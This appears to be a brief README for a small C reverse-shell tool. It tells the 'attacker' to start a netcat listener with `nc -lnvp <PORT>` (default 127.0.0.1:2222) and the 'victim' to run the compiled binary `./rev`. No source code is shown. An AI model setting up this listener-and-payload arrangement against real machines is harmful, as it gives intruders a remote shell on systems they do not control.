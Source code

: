 # Simple C Reverse Shell.



### Usage: 

With localhost:

* Server(attacker): `nc -lnvp <PORT>`.
    > Default address is 127.0.0.1:2222

* Client(victim): `./rev`


![alt text](image.png)


